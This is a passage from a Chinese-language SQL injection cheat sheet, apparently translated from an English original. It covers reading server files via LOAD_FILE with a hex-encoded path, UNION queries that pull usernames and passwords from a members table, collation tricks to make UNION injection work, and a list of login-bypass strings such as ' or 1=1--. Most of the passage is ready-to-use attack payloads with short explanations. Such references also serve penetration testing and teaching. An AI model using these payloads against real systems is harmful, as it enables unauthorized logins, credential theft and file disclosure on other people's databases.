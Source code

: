*   `SELECT LOAD_FILE(0x633A5C626F6F742E696E69)`(M)
    
    这会显示**c:\boot.ini**的内容
    

### 字符串异化(Modification)与联系

*   `ASCII()`(SMP)
    
    返回最左边字符的ASCII码的值。这是一个用于盲注的重要函数。
    
    例：`SELECT ASCII('a')`
    
*   `CHAR()`(SM)
    
    把整数转换为对应ASCII码的字符
    
    例：`SELECT CHAR(64)`
    

### Union注入

通过union你能跨表执行查询。最简单的，你能注入一个查询使得它返回另一个表的内容。`SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members`

这会把news表和members表的内容合并返回。

另一个例子：`' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

#### UNION-语言问题处理

当你使用Union来注入的时候，经常会遇到一些错误，这是由于不同的语言的设置（表的设置、字段设置、表或数据库的设置等等）。这些办法对于解决那些问题都挺有用的，尤其是当你处理日文，俄文，土耳其文的时候你会就会见到他们的。

*   使用`COLLATE SQL_Latin1_General_Cp1254_CS_AS`(S)
    
    或者其它的什么语句，具体的自己去查SQL Server的文档。 例：`SELECT header FROM news UNION ALL SELECT name COLLATE SQL_Latin1_General_Cp1254_CS_AS FROM members`
    
*   `Hex()`(M)
    
    百试百灵~
    

### 绕过登陆界面(SMO+)

_SQL注入101式_(大概是原文名字吧？),登陆小技巧

*   `admin' --`
*   `admin' #`
*   `admin'/*`
*   `' or 1=1--`
*   `' or 1=1#`
*   `' or 1=1/*`
*   `') or '1'='1--`
*   `') or ('1'='1--`
*   ....
*   以不同的用户登陆 (SM*)`' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

**旧版本的MySQL不支持union*
